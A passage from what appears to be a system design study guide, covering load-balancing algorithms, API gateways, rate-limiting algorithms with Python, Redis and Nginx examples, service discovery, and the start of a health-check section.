| IP hash | `hash(client IP) % N` — same IP, same server | Simple stickiness without cookies | Uneven when many users share one IP; adding a server reshuffles almost everyone |
| Consistent hashing | Servers and keys placed on a "ring"; a key goes to the next server clockwise | Caches and sharded data: same key, same server | Needs "virtual nodes" to spread evenly; one very hot key still hits one server |
| Power of two random choices | Pick 2 servers at random, send to the less busy one | Big fleets, many LBs with slightly stale info | Small randomness, but in practice close to the best |

Two ideas worth understanding:
- **Why consistent hashing?** With plain `hash % N`, going from 4 to 5 servers moves about 80% of keys to a different server — terrible for caches. On a hash ring, only about 1/N of the keys move.
- **Why "power of two choices"?** If 10 LBs all use "least connections" with slightly old data, they may all pick the *same* "least busy" server at the same instant and flatten it (a *herd effect*). Choosing the better of 2 random servers avoids the stampede yet balances almost as well as checking every server. Nginx (`random two least_conn`) and Envoy's least-request balancer use this idea.

**Sticky sessions (session affinity)** mean the LB always sends the same user to the same server, using a cookie (AWS ALB can set one for you) or IP hash. It is tempting when your app keeps login sessions in server memory. Avoid it when you can:
- Load becomes uneven (one server collects all the heavy users).
- If that server dies or is redeployed, its users lose their session (logged out, cart emptied).
- Scaling down and rolling deploys get harder because servers can't be drained quickly.

Better: make servers **stateless** — keep sessions in a shared store such as Redis or a database, or in signed tokens (JWTs). Stickiness is acceptable for things that are naturally long-lived, like a WebSocket connection.

**Health checks.** The LB asks each server "are you OK?" every few seconds (*active* checks) and/or watches real responses for errors (*passive* checks). Failing servers are removed; recovered ones are added back. Details in #16.

**The LB must not become the new single point of failure.**
- *Active-passive pair:* two LBs share one floating virtual IP. The active one serves traffic and sends heartbeats; if they stop, the passive one takes over the IP within seconds (a classic tool is keepalived, which uses the VRRP protocol).
- *Active-active:* several LBs all serve traffic at once, with DNS or network routers spreading users across them.
- *Managed LBs:* cloud LBs (AWS Elastic Load Balancing, Google Cloud Load Balancing, Azure Load Balancer) are built from many machines across availability zones (separate data centers), so redundancy is the provider's job.

**Global load balancing** decides which *region* (data center area) a user should go to, before the local LB picks a server:
- *GeoDNS:* DNS answers differently by location — a user in Mumbai gets the Asia region's IP, a user in Paris gets Europe's. AWS Route 53 offers geolocation and latency-based routing. Downside: DNS answers are cached for their TTL (time to live), so failover is not instant.
- *Anycast:* the *same* IP address is announced from many locations using BGP (the protocol internet routers use to share routes), and the internet delivers each user to the nearest one. Cloudflare's network and Google Public DNS (8.8.8.8) work this way. Failover is fast because routes change, not DNS caches.

```mermaid
flowchart LR
    Users["Users"] --> VIP["Virtual IP<br/>203.0.113.10"]
    VIP --> LBActive["LB 1 - active"]
    VIP -.->|"takes over if LB 1 dies"| LBPassive["LB 2 - passive"]
    LBActive -.->|"heartbeat"| LBPassive
    LBActive --> App1["App 1 - healthy"]
    LBActive --> App2["App 2 - healthy"]
    LBActive --> App3["App 3 - healthy"]
    LBActive -.->|"health check failing,<br/>no traffic sent"| App4["App 4 - unhealthy"]
```

```mermaid
flowchart TD
    UserIN["User in India"] --> DNS{"GeoDNS or anycast:<br/>which region is closest and healthy?"}
    UserFR["User in France"] --> DNS
    UserUS["User in USA"] --> DNS
    DNS -->|"Asia"| RegionAsia["Mumbai region LB"]
    DNS -->|"Europe"| RegionEU["Frankfurt region LB"]
    DNS -->|"Americas"| RegionUS["Virginia region LB"]
    RegionAsia --> PoolAsia["App servers"]
    RegionEU --> PoolEU["App servers"]
    RegionUS --> PoolUS["App servers"]
```

**💻 Example:**

An Nginx `upstream` block — the algorithm, weights, passive health checks and a backup server:

```nginx
upstream app_servers {
    least_conn;                                      # algorithm (default is round robin)
    server 10.0.1.11:8080 weight=3;                  # bigger machine gets 3x the traffic
    server 10.0.1.12:8080 max_fails=3 fail_timeout=30s;  # 3 errors -> skip it for 30s
    server 10.0.1.13:8080;
    server 10.0.1.14:8080 backup;                    # used only if all others are down
}

server {
    listen 80;
    location / {
        proxy_pass http://app_servers;
        proxy_next_upstream error timeout http_502 http_503;  # try another server
    }
}
```

Other algorithms are one line: `ip_hash;`, `hash $request_uri consistent;` or `random two least_conn;`. (Active health checks with a probe URL are an Nginx Plus feature; open-source Nginx uses the passive `max_fails` style shown above.)

On AWS, the two main managed choices:

| | Application Load Balancer (ALB) | Network Load Balancer (NLB) |
|---|---|---|
| Layer | 7 — HTTP, HTTPS, gRPC, WebSockets | 4 — TCP, UDP, TLS |
| Routing rules | By path, host, headers, query string | By port and protocol only |
| Static IP | No (you use its DNS name) | Yes, one per availability zone |
| Performance | Great for web traffic | Built for millions of requests per second at very low latency |
| Typical use | Websites, REST APIs, microservices, Lambda targets | Games, IoT, non-HTTP protocols, extreme throughput |

A toy load balancer in Python, to see the algorithms in action:

```python
import itertools
import random

SERVERS = ["app1", "app2", "app3"]

# 1) Round robin: cycle through the list forever
_rr = itertools.cycle(SERVERS)
def round_robin():
    return next(_rr)

# 2) Least connections: track open connections per server
active = {s: 0 for s in SERVERS}
def least_connections():
    server = min(active, key=active.get)  # fewest open connections wins
    active[server] += 1                   # a request starts
    return server

def finished(server):
    active[server] -= 1                   # call this when the request ends

# 3) Power of two random choices
def two_choices():
    a, b = random.sample(SERVERS, 2)
    return a if active[a] <= active[b] else b

print([round_robin() for _ in range(5)])        # ['app1', 'app2', 'app3', 'app1', 'app2']
print([least_connections() for _ in range(4)])  # ['app1', 'app2', 'app3', 'app1']
print(active)                                   # {'app1': 2, 'app2': 1, 'app3': 1}
```

**🌍 Real-world usage:**
- Netflix runs on AWS behind Elastic Load Balancers, with its own Zuul gateway doing smarter L7 routing behind them.
- Google published a paper (2016) on **Maglev**, its software L4 load balancer that uses consistent hashing so connections survive LB changes.
- Facebook open-sourced **Katran**, an L4 load balancer built on Linux eBPF/XDP; GitHub open-sourced **GLB Director**, its L4 load balancer.
- Cloudflare uses anycast so every data center announces the same IPs and users land on the nearest one.
- Popular products: AWS ALB/NLB, Google Cloud Load Balancing, Azure Load Balancer, Nginx, HAProxy, Envoy, F5 BIG-IP.

**⚖️ Trade-offs:**

| Option | When to use | Downside |
|---|---|---|
| L4 LB | Non-HTTP traffic, maximum speed, pass-through TLS | Can't route by URL or header |
| L7 LB | Web apps and APIs needing smart routing | More CPU, must handle TLS certificates |
| Managed cloud LB | Most teams on AWS/GCP/Azure | Cost per hour and per GB, less low-level control |
| Self-hosted (Nginx, HAProxy) | On-premises, special features, cost control | You must run it in a redundant pair yourself |
| Sticky sessions | Legacy stateful apps, WebSockets | Uneven load, lost sessions when a server dies |

**⚠️ Common mistakes:**
- Running a single LB with no standby — you just moved the single point of failure.
- Using sticky sessions to hide a stateful app instead of moving session data to Redis or a database.
- A health check URL that always returns 200, so a broken server keeps getting traffic.
- No *connection draining* (AWS calls it deregistration delay): during deploys, in-flight requests are cut off instead of being allowed to finish.
- Plain round robin for long-lived connections (WebSockets), which piles connections onto old servers; prefer least connections.

**🎯 Remember:** A load balancer gives you scale and survival: many interchangeable stateless servers behind one address, healthy ones only. Know L4 vs L7, round robin vs least connections vs consistent hashing, and never leave the LB itself as a single point of failure.

**🔗 See also:** [#11 Reverse Proxies](#11-reverse-proxies), [#15 Service Discovery](#15-service-discovery), [#16 Health Checks](#16-health-checks)

---


### 13. API Gateway

> **In one line:** An API gateway is the single front door for all your backend services: it checks who you are, how much you're allowed to do, and which service should handle your request.

**🏠 Real-life analogy:** Picture a large office building with many companies inside. Visitors don't wander the corridors. They go to one lobby desk that checks their ID (authentication), refuses people who have already visited too often today (rate limiting), tells them which floor to go to (routing), hands out visitor badges in a standard format (transformation), and writes everyone into a logbook (observability). The companies upstairs can focus on their work because the lobby handles all of that.

**❓ What problem does it solve?**
Many systems are built as *microservices* — the app is split into many small services (users, orders, search, payments), each run by its own team. Without a gateway:
- Mobile and web apps must know the address of every service, and break whenever one moves or splits.
- Every service re-implements the same *cross-cutting concerns* (features needed everywhere): login checks, rate limits, logging, CORS headers.
- A phone on a slow network has to make 5 separate calls to draw one screen.
- Internal services are exposed directly to the internet, increasing the attack surface.

**⚙️ How it works:**
The gateway is a smart L7 reverse proxy (see #11) with a pipeline of plugins that every request passes through:
1. **Authentication and authorization** — verifies an API key, a JWT (a signed login token) or an OAuth token, then passes the user ID to services in a header.
2. **Rate limiting and quotas** — e.g., free plan 100 requests/minute, paid plan 1,000 (see #14).
3. **Routing** — `/orders/...` goes to the order service, `/v2/search` to the new search service.
4. **Request/response transformation** — rename fields, add or remove headers, convert XML to JSON, keep an old API version working on top of a new service.
5. **Aggregation (composition)** — one client call fans out to several services in parallel and the results are merged into one response.
6. **Caching** — store responses for popular, non-personal requests.
7. **Observability** — logs, metrics (requests per second, error rate, latency) and a request ID for distributed tracing on every call.

It usually also does TLS termination, CORS, IP allow/deny lists, and canary releases (send 5% of traffic to a new version).

**Backend-for-Frontend (BFF) pattern.** Instead of one giant gateway for every kind of client, each frontend gets its own small gateway, usually owned by the team that builds that frontend. The mobile BFF returns small, phone-friendly payloads; the web BFF returns richer pages; the public partner API stays stable for years. The term was popularized by Sam Newman, describing how SoundCloud built its APIs.

```mermaid
flowchart LR
    Mobile["Mobile app"] --> GW["API gateway"]
    Web["Web app"] --> GW
    Partner["Partner company"] --> GW
    subgraph Pipeline["Plugin pipeline inside the gateway"]
        Auth["Authenticate<br/>API key or JWT"] --> Limit["Rate limit"]
        Limit --> Route["Route and transform"]
    end
    GW --> Auth
    Route -->|"/users/..."| UserSvc["User service"]
    Route -->|"/orders/..."| OrderSvc["Order service"]
    Route -->|"/search/..."| SearchSvc["Search service"]
    Route -.->|"logs, metrics, traces"| Monitor["Monitoring"]
```

```mermaid
sequenceDiagram
    participant App as Mobile App
    participant GW as API Gateway
    participant U as User Service
    participant O as Order Service
    participant R as Recommendation Service
    App->>GW: GET /home-screen (one request)
    par profile
        GW->>U: get profile
    and orders
        GW->>O: get last 3 orders
    and suggestions
        GW->>R: get suggestions
    end
    U-->>GW: profile
    O-->>GW: orders
    R-->>GW: suggestions
    GW-->>App: one combined JSON response
```

```mermaid
flowchart LR
    Phone["iPhone and Android apps"] --> MobileBFF["Mobile BFF<br/>small payloads"]
    Browser["Web browser"] --> WebBFF["Web BFF<br/>rich pages"]
    TVApp["Smart TV app"] --> TVBFF["TV BFF<br/>simple layouts"]
    MobileBFF --> Users["User service"]
    MobileBFF --> Catalog["Catalog service"]
    WebBFF --> Users
    WebBFF --> Catalog
    WebBFF --> Reviews["Review service"]
    TVBFF --> Catalog
```

**How the "front door" family compares:**

| | Reverse proxy | Load balancer | API gateway | Service mesh |
|---|---|---|---|---|
| Main job | Front door: TLS, caching, routing to backends | Spread traffic over healthy copies of a service | Manage APIs: auth, rate limits, routing, transforms | Secure and observe service-to-service calls |
| Traffic | North-south (users into your system) | North-south, sometimes internal | North-south | East-west (service to service inside) |
| Understands | HTTP (usually) | TCP (L4) or HTTP (L7) | HTTP APIs, users, API keys, plans | HTTP/gRPC between services, service identities |
| Where it runs | At the edge | At the edge or in front of each service | At the edge | A *sidecar* proxy next to every service |
| Examples | Nginx, Caddy, Traefik | AWS ALB/NLB, HAProxy | Kong, AWS API Gateway, Apigee | Istio, Linkerd, Consul service mesh |

*North-south* means traffic entering or leaving your system; *east-west* means traffic between your own services. In practice one product can play several roles (Nginx and Envoy can do all four jobs), so think of these as **roles**, not boxes.

**💻 Example:** A Kong declarative config (DB-less mode). It exposes the orders service at `/api/orders`, requires an API key, and limits each consumer to 100 requests per minute.

```yaml
_format_version: "3.0"

services:
  - name: orders-service
    url: http://orders.internal:8080       # private address of the real service
    routes:
      - name: orders-route
        paths:
          - /api/orders                    # public path clients call
    plugins:
      - name: key-auth                     # require an API key
      - name: rate-limiting
        config:
          minute: 100                      # 100 requests per minute per consumer
          policy: local

consumers:
  - username: mobile-app
    keyauth_credentials:
      - key: demo-key-change-me            # placeholder, never commit real keys

plugins:
  - name: correlation-id                   # adds a request ID to every call
    config:
      header_name: X-Request-ID
```

```bash
curl -i https://api.example.com/api/orders -H "apikey: demo-key-change-me"
```

Without the `apikey` header Kong answers `401 Unauthorized`; after 100 calls in a minute it answers `429 Too Many Requests`. The orders service itself never sees those rejected calls.

**🌍 Real-world usage:**
- **Kong** — open-source gateway built on Nginx/OpenResty with a large plugin ecosystem.
- **AWS API Gateway** — fully managed; fronts Lambda functions and HTTP backends, with API keys, usage plans and throttling (AWS documents that it throttles with a token bucket).
- **Google Apigee** — enterprise API management: developer portals, analytics, monetization.
- **Envoy-based gateways** — Envoy Gateway, Emissary-ingress, Gloo; Kubernetes also defines a standard *Gateway API* that these implement.
- **Netflix Zuul** — Netflix's own open-source edge gateway that routes traffic from its many device apps into its backend services.
- Others: Azure API Management, Tyk, Spring Cloud Gateway, Traefik.

**⚖️ Trade-offs:**

| Pros | Cons |
|---|---|
| Clients see one stable API, internals can change freely | Extra network hop adds a little latency |
| Auth, rate limits and logging written once | Must be highly available or it takes everything down |
| Aggregation cuts round trips for mobile apps | Easy to stuff business logic into it until it becomes a monolith |
| Central place to see all API traffic | One shared config can make a central team a bottleneck |

**⚠️ Common mistakes:**
- Putting business logic (pricing rules, order validation) in the gateway — it belongs in services.
- Running a single gateway instance: now it's your single point of failure.
- Checking auth only at the gateway while internal services trust any caller; anyone who reaches the inside network can skip it.
- Aggregating many calls without timeouts — the whole response becomes as slow as the slowest service. Set timeouts and return partial data when possible.
- One huge gateway shared by every team, where every route change waits for one central team (consider BFFs).

**🎯 Remember:** An API gateway is a reverse proxy that understands APIs and users: auth, rate limits, routing, transforms, aggregation and observability in one front door. Keep it thin, redundant and free of business logic.

**🔗 See also:** [#11 Reverse Proxies](#11-reverse-proxies), [#12 Load Balancing](#12-load-balancing), [#14 Rate Limiting](#14-rate-limiting), [#15 Service Discovery](#15-service-discovery)

---


### 14. Rate Limiting

> **In one line:** Rate limiting caps how many requests someone can make in a period of time, so no single user, bot or bug can hog or crash the system.

**🏠 Real-life analogy:** A popular nightclub has a bouncer who lets in at most 10 people per minute, no matter how long the queue is. Another way to picture it: you get a jar of arcade tokens that is topped up with one new token every few seconds, up to a maximum of 20. Each game costs one token. You can play a quick burst of games if the jar is full, but once it's empty you must wait for refills. That jar is the famous **token bucket**.

**❓ What problem does it solve?**
- **Abuse:** bots scraping your site, attackers guessing passwords (brute force), floods of junk traffic.
- **Fairness:** one "noisy neighbor" customer shouldn't slow the service down for everyone else.
- **Cost:** every request may cost real money (database time, SMS messages, paid AI model calls).
- **Protecting backends:** if your database can handle 5,000 queries per second, letting through 50,000 doesn't serve more people — it makes *everyone* fail.

Without limits, a single buggy client stuck in an infinite retry loop can take your API down for all customers.

**⚙️ How it works:**
1. **Identify the caller** with a *key*: user ID, API key, IP address, company (tenant), or endpoint.
2. **Count or measure** that key's recent requests using one of the algorithms below.
3. **Decide:** under the limit, allow. Over the limit, reject with **HTTP 429 Too Many Requests** (or, sometimes, queue or slow the request down).
4. **Tell the client** how much quota is left and when to retry, using response headers.

**The five classic algorithms:**
- **Fixed window counter** — keep one counter per key per calendar window (e.g., per minute). Reset at the start of each minute. Super simple, but bursty at the edges: 100 requests at 12:00:59 plus 100 at 12:01:00 means 200 in two seconds, all allowed.
- **Sliding window log** — store the timestamp of every request; on each new request, drop timestamps older than 60 seconds and count the rest. Perfectly accurate, but memory-hungry (one entry per request).
- **Sliding window counter** — keep counters for the current and previous window and estimate: `current + previous x (share of previous window still inside the last 60s)`. Example: limit 100/min, 15 seconds into this minute, previous minute had 80, current has 30, so the estimate is 30 + 80 x 0.75 = 90, which is allowed. Cheap and almost as accurate as the log; Cloudflare has written about using this approach at scale.
- **Token bucket** — each key has a bucket holding up to B tokens, refilled at R tokens per second. Each request takes a token; no token, no entry. Allows short bursts up to B while keeping the long-run average at R. Used by AWS API Gateway (documented) and Stripe (which has blogged about its token-bucket rate limiters built on Redis).
- **Leaky bucket** — requests go into a queue (the bucket) that "leaks" (is processed) at a fixed rate; when the queue is full, new requests are dropped. Produces a perfectly smooth outflow, but adds waiting time. Nginx's `limit_req` module is documented as using the leaky bucket method.

| Algorithm | Memory per key | Allows bursts? | Accuracy | Good for |
|---|---|---|---|---|
| Fixed window counter | 1 counter | Yes, up to 2x at window edges | Low at edges | Simple quotas (per day, per hour) |
| Sliding window log | 1 entry per request | No | Exact | Low-volume, high-value limits (login attempts) |
| Sliding window counter | 2 counters | Slightly | Very good estimate | General API limits at scale |
| Token bucket | Token count plus timestamp | Yes, up to bucket size | Good | Public APIs that should tolerate small bursts |
| Leaky bucket | A queue | No, output is smoothed | Good | Protecting a backend that needs a steady rate |

```mermaid
flowchart LR
    Refill["Refill: 10 tokens per second"] -->|"adds tokens until full"| Bucket[("Bucket<br/>max 20 tokens")]
    Req["Incoming request"] --> Check{"Is there a token?"}
    Bucket -.->|"take 1 token"| Check
    Check -->|"Yes"| Allow["Allow - forward to API"]
    Check -->|"No"| Reject["Reject - HTTP 429<br/>with Retry-After"]
```

**What the client sees.** The standard "slow down" answer is status **429 Too Many Requests** (defined in RFC 6585). Good APIs add:
- `Retry-After` — seconds to wait (or a date) before trying again.
- Quota headers — many APIs use `X-RateLimit-Limit`, `X-RateLimit-Remaining` and `X-RateLimit-Reset`; an IETF draft is standardizing `RateLimit` / `RateLimit-Policy` headers for the same purpose.

**Distributed rate limiting.** If you run 4 API servers behind a load balancer and each keeps its own in-memory counter of 100/min, a user can actually make about 400/min. The fix is a **shared counter** in a fast central store, usually **Redis** (an in-memory database), updated with atomic (all-or-nothing) operations so two servers can't both read "99" and both allow request number 100.

```mermaid
sequenceDiagram
    participant C as Client
    participant A as API Server
    participant R as Redis
    C->>A: GET /v1/orders with API key k123
    A->>R: INCR rl:k123:minute-1042
    R-->>A: 101
    Note over A: Limit is 100 per minute, so reject
    A-->>C: 429 Too Many Requests, Retry-After 30
    Note over C: Wait 30 seconds instead of hammering
    C->>A: GET /v1/orders (retry)
    A->>R: INCR rl:k123:minute-1043
    R-->>A: 1
    A-->>C: 200 OK
```

**Who to limit — choosing the key:**

| Key | Good for | Problem |
|---|---|---|
| Per IP address | Anonymous traffic, login and signup pages | Many users can share one IP (offices, mobile carriers), attackers rotate IPs |
| Per user / account | Fairness between logged-in users | Only works after authentication |
| Per API key | Developer APIs, pricing tiers (free vs paid) | A leaked key burns its owner's quota |
| Per endpoint | Stricter limits on expensive or sensitive routes (login, search) | More rules to manage |
| Global | A last-resort cap to protect the backend | Punishes everyone equally during a spike |

Real systems combine them, for example "100/min per API key AND 10 login attempts/min per IP AND a global safety cap".

**💻 Example:**

A token bucket in plain Python (one process):

```python
import time

class TokenBucket:
    def __init__(self, capacity, refill_per_sec):
        self.capacity = capacity              # max burst size
        self.refill_per_sec = refill_per_sec  # long-run average rate
        self.tokens = capacity                # start full
        self.last = time.monotonic()

    def allow(self, cost=1):
        now = time.monotonic()
        # add the tokens earned since last time, but never above capacity
        self.tokens = min(self.capacity,
                          self.tokens + (now - self.last) * self.refill_per_sec)
        self.last = now
        if self.tokens >= cost:
            self.tokens -= cost
            return True                       # allowed
        return False                          # caller should return HTTP 429

bucket = TokenBucket(capacity=5, refill_per_sec=1)
print([bucket.allow() for _ in range(7)])     # [True, True, True, True, True, False, False]
```

A distributed fixed-window limiter shared by all servers via Redis. `INCR` and `EXPIRE` are wrapped in a tiny Lua script so they run as one atomic step (if the server crashed between two separate commands, the key could live forever):

```python
import time
import redis

r = redis.Redis(host="localhost", port=6379)

LUA = """
local n = redis.call('INCR', KEYS[1])
if n == 1 then redis.call('EXPIRE', KEYS[1], ARGV[1]) end
return n
"""
incr_with_ttl = r.register_script(LUA)

def allow(api_key, limit=100, window_sec=60):
    window_id = int(time.time() // window_sec)   # e.g. which minute we are in
    key = f"rl:{api_key}:{window_id}"
    count = incr_with_ttl(keys=[key], args=[window_sec])
    return count <= limit
```

Rate limiting at the proxy with Nginx (leaky bucket), 10 requests/second per client IP with a small burst allowance:

```nginx
limit_req_zone $binary_remote_addr zone=perip:10m rate=10r/s;

server {
    location /login {
        limit_req zone=perip burst=20 nodelay;   # allow short bursts of 20
        limit_req_status 429;                    # Nginx's default would be 503
        proxy_pass http://app_servers;
    }
}
```

What a polite rejection looks like:

```http
HTTP/1.1 429 Too Many Requests
Content-Type: application/json
Retry-After: 30
X-RateLimit-Limit: 100
X-RateLimit-Remaining: 0
X-RateLimit-Reset: 1767225600

{"error": "rate_limited", "message": "Too many requests. Try again in 30 seconds."}
```

**🌍 Real-world usage:**
- **GitHub's REST API** documents a primary limit of **5,000 requests per hour** for authenticated users (and only 60 per hour for unauthenticated requests, per IP). Every response carries `x-ratelimit-limit`, `x-ratelimit-remaining` and `x-ratelimit-reset` headers, and you can check your status with `curl -H "Authorization: Bearer <token>" https://api.github.com/rate_limit`.
- **Stripe** has publicly blogged about using token-bucket rate limiters (backed by Redis) to protect its API, alongside "load shedders" that drop low-priority traffic when the system is stressed.
- **AWS API Gateway** throttles with a token bucket (a steady-state rate plus a burst limit).
- **Cloudflare**, **Kong**, **Envoy** and **Nginx** all offer rate limiting at the edge, so excess traffic is stopped before it ever reaches your servers.

**⚖️ Trade-offs:**

| Option | When to use | Downside |
|---|---|---|
| In-memory, per server | One server, or rough protection only | Real limit becomes N x limit behind a load balancer |
| Central Redis counter | Exact limits across many servers | Extra network call per request, Redis must be highly available |
| At the edge (CDN, gateway) | Stop floods before they cost you anything | Edge may not know user identity or plan |
| Fail open (allow if limiter is down) | Most APIs, where availability matters most | Briefly unprotected during limiter outages |
| Fail closed (reject if limiter is down) | Security-critical endpoints like login | A limiter outage becomes a full outage |

**⚠️ Common mistakes:**
- Per-server in-memory counters behind a load balancer, so the real limit is several times larger than intended.
- Returning 429 without `Retry-After`, so clients guess and retry instantly, making the overload worse. Clients should back off with growing, randomized delays.
- Limiting only by IP, which blocks a whole office or mobile carrier sharing one address.
- Using a fixed window and being surprised by double-sized bursts at window boundaries.
- Making every request fail when Redis is unreachable, without having consciously chosen "fail closed".

**🎯 Remember:** Rate limiting protects availability, fairness and cost. Know the five algorithms (token bucket is the interview favorite), return 429 with `Retry-After`, and use a shared store like Redis when you have more than one server.

**🔗 See also:** [#13 API Gateway](#13-api-gateway), [#11 Reverse Proxies](#11-reverse-proxies), [#12 Load Balancing](#12-load-balancing)

---


### 15. Service Discovery

> **In one line:** Service discovery is a live, self-updating phone book that lets services find each other's current addresses automatically.

**🏠 Real-life analogy:** In a hospital, doctors change shifts all day. If you need a heart specialist, you don't memorize Dr. Rao's pager number — you check the on-call board for "cardiology", which always lists whoever is on duty right now. When a doctor goes home, their name is wiped off; when one arrives, it is added. Service discovery is that on-call board for your servers.

**❓ What problem does it solve?**
In the cloud and in containers, servers are **cattle, not pets**: they are created and destroyed constantly by autoscaling, crashes and deploys, and each new one gets a new, random IP address.
- If the checkout service has `payments = 10.0.3.17` hard-coded, it breaks the moment that instance is replaced.
- Editing config files by hand every time something scales is slow and error-prone.
- Callers keep sending traffic to instances that no longer exist, causing timeouts.

**⚙️ How it works:**
1. **Service registry** — a small, highly available database mapping a *service name* to its live instances: `payments -> [10.0.1.5:8080, 10.0.2.9:8080, 10.0.3.4:8080]`, often with health status and metadata (version, zone).
2. **Registration** — getting instances into the registry:
   - *Self-registration:* the instance registers itself on startup and then sends a **heartbeat** ("still alive!") every few seconds. Each entry has a **TTL** (time to live); if heartbeats stop for longer than the TTL, the registry removes it.
   - *Third-party registration:* a platform does it for you. Kubernetes, for example, knows which pods it started and whether they are ready.
   - On a graceful shutdown, the instance *deregisters* itself immediately rather than waiting for the TTL.
3. **Discovery** — finding an instance when you want to call it:
   - **Client-side discovery:** the caller asks the registry for the list and picks an instance itself (with round robin or similar). Fewer hops and smarter choices, but every client needs a discovery library in its language. Netflix's Eureka registry plus its Ribbon client library is the classic example.
   - **Server-side discovery:** the caller sends the request to one fixed address (a load balancer or router), which looks up the registry and forwards it. Clients stay simple; the router is an extra hop. AWS load balancers and Kubernetes Services work this way.

```mermaid
flowchart LR
    subgraph ClientSide["Client-side discovery"]
        Checkout["Checkout service<br/>with discovery library"] -->|"where is payments?"| Registry[("Service registry")]
        Registry -->|"3 addresses"| Checkout
        Checkout -->|"picks one itself"| PayB["Payments 10.0.2.9"]
        PayA["Payments 10.0.1.5"] -.->|"heartbeat"| Registry
        PayB -.->|"heartbeat"| Registry
    end
```

```mermaid
flowchart LR
    subgraph ServerSide["Server-side discovery"]
        Checkout2["Checkout service<br/>knows one name only"] -->|"calls payments.internal"| Router["Load balancer or router"]
        Router -.->|"looks up instances"| Registry2[("Service registry")]
        Router --> PayX["Payments A"]
        Router --> PayY["Payments B"]
        Router --> PayZ["Payments C"]
    end
```

```mermaid
sequenceDiagram
    participant P as Payments instance
    participant R as Registry
    participant C as Checkout
    P->>R: Register payments at 10.0.2.9 port 8080, TTL 30s
    loop every 10 seconds
        P->>R: Heartbeat, still alive
    end
    C->>R: Who serves payments?
    R-->>C: 10.0.2.9 and 2 others
    Note over P: Instance crashes, heartbeats stop
    Note over R: No heartbeat for 30s, remove 10.0.2.9
    C->>R: Who serves payments?
    R-->>C: Only the 2 others
```

**Kubernetes does this for you.** Pods (Kubernetes' smallest unit, one or more containers) get a new IP every time they are recreated. A Kubernetes **Service** gives a group of pods one stable name and virtual IP:
- The Service uses a **label selector** (e.g., `app: payments`) to find its pods.
- Kubernetes keeps a list of the matching pods' IPs (in objects called *EndpointSlices*) — and only pods that pass their **readiness probe** are included (see #17).
- The cluster DNS (usually CoreDNS) gives every Service a name of the form `my-svc.my-namespace.svc.cluster.local`. Inside the same namespace, just `my-svc` works.
- kube-proxy (or an eBPF-based networking layer such as Cilium) forwards traffic sent to the Service's virtual IP to one of the healthy pods — server-side discovery built in.
- A *headless* Service (`clusterIP: None`) skips the virtual IP; DNS returns the pod IPs directly, for client-side discovery.

**💻 Example:**

A Kubernetes Service for the payments pods:

```yaml
apiVersion: v1
kind: Service
metadata:
  name: payments
  namespace: shop
spec:
  selector:
    app: payments        # every ready pod with this label becomes a backend
  ports:
    - port: 80           # port that callers use
      targetPort: 8080   # port the container actually listens on
```

From any other pod in the cluster:

```bash
curl http://payments.shop.svc.cluster.local/charge   # full DNS name
curl http://payments/charge                          # short name, same namespace
```

Outside Kubernetes, Consul answers DNS queries for registered, healthy services (its DNS interface listens on port 8600 by default):

```bash
dig @127.0.0.1 -p 8600 payments.service.consul +short
# 10.0.1.5
# 10.0.2.9
```

**🌍 Real-world usage:**

| Tool | How it works | Known for |
|---|---|---|
| Consul (HashiCorp) | Agents on each machine, Raft-replicated servers, health checks, DNS and HTTP APIs | Discovery plus health checks plus key-value config, works across VMs and Kubernetes |
| etcd | Strongly consistent key-value store (Raft); entries can be tied to a *lease* with a TTL | It is the database that stores all Kubernetes cluster state |
| ZooKeeper (Apache) | *Ephemeral* nodes vanish automatically when the client's session dies | Long used by Hadoop, HBase and older Kafka versions for coordination |
| Netflix Eureka | REST registry; clients heartbeat (every 30 seconds by default) and cache the registry locally | Favors availability over strict consistency; popular via Spring Cloud Netflix |
| Kubernetes Services and DNS | Built-in, driven by labels and readiness | Default choice for anything running on Kubernetes |
| AWS Cloud Map | Managed registry with DNS and API lookups | Discovery for ECS and other AWS services |

**⚖️ Trade-offs:**

| Option | When to use | Downside |
|---|---|---|
| Client-side discovery | Need smart per-call choices, fewest hops | Discovery library needed in every language |
| Server-side discovery | Simple clients, many languages | Extra hop, router must be highly available |
| DNS-based discovery | Universal, every language speaks DNS | Clients and libraries may cache answers too long |
| Strongly consistent registry (etcd, ZooKeeper, Consul) | Coordination, leader election, exact membership | May refuse writes when it loses quorum (a majority of nodes) |
| Availability-first registry (Eureka) | Keep serving even when partitioned | Can briefly return instances that are already dead |

**⚠️ Common mistakes:**
- Hard-coding IP addresses in config or code.
- Clients or language runtimes caching DNS answers for a long time, so they keep calling instances that are gone.
- TTLs that are too long (dead instances linger) or too short (instances "flap" in and out during a brief network hiccup).
- Running the registry on a single node — the phone book itself becomes a single point of failure. Run 3 or 5 nodes so a majority survives.
- Registering instances before they can actually serve, or not deregistering on shutdown. Tie registration to health and readiness.

**🎯 Remember:** In dynamic environments, call services by **name**, never by IP. A registry plus heartbeats/TTLs keeps the name-to-address list fresh; on Kubernetes, Services and `my-svc.my-namespace.svc.cluster.local` do it for you.

**🔗 See also:** [#12 Load Balancing](#12-load-balancing), [#16 Health Checks](#16-health-checks), [#17 Liveness & Readiness Probes](#17-liveness--readiness-probes)

---


### 16. Health Checks

> **In one line:** A health check is a regular "are you OK?" question that a load balancer or platform asks each server, so broken servers stop receiving traffic.

**🏠 Real-life analogy:** A supermarket manager calls each cashier every 10 seconds: "Can you take customers?" If a cashier fails to answer three times in a row, the manager closes that lane and sends shoppers elsewhere. Once the cashier answers twice in a row again, the lane reopens. Nobody waits for a shopper to complain first.

**❓ What problem does it solve?**
- Servers crash, hang, run out of memory or lose their network. Without health checks, the load balancer keeps sending them a share of traffic, and that share of your users gets errors or endless spinners.
- A human would have to notice the problem and remove the server by hand — at 3 a.m.
- Automation like autoscaling and self-healing (replacing bad servers) needs a reliable signal of "this one is broken".

**⚙️ How it works:**
1. A **checker** — a load balancer, Kubernetes, Consul — sends a probe to each instance every **interval** (e.g., every 10 seconds). The probe can be an HTTP request (`GET /health`), a TCP connection attempt, or a command.
2. A **pass** means the right answer (e.g., HTTP 200) arrived within a **timeout** (e.g., 2 seconds). Anything else is a fail.
3. **Unhealthy threshold:** after N consecutive fails (e.g., 3) the instance is marked unhealthy and taken out of rotation.
4. **Healthy threshold:** after M consecutive passes (e.g., 2) it goes back in. Requiring several results in a row prevents *flapping* (bouncing in and out on every tiny blip).
5. **Active vs passive:** *active* checks send probes on a schedule; *passive* checks watch real traffic (e.g., "5 errors in a row, stop sending for 30 seconds"). Many systems use both.

**Shallow vs deep checks:**

| | Shallow check ("Am I alive?") | Deep check ("Can I reach my dependencies?") |
|---|---|---|
